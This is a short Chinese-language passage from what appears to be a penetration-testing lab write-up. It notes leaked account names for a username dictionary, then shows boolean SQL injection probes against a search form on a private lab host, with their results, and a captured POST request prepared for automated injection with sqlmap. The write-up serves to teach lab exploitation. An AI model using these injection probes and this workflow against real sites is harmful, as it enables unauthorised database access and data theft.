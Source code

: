 有一处账号泄露点，留心把它们做成账号字典；还发现一处搜索功能，也可以试试注入

# web打点

## sql注入

发现

```
mary' && '1'='1               成功返回
mary' && '1'='2               返回无结果
```

<img src=".\图片\Snipaste_2023-07-02_15-59-15.png" alt="Snipaste_2023-07-02_15-59-15" style="zoom:80%;" />

### sqlmap梭哈

可以手工注入或自写 python ，但懒

用 -r 参数接文件名注入

```http
POST /results.php HTTP/1.1
Host: 192.168.0.114
Content-Length: 32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.114
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.114/search.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

search=mary*
```
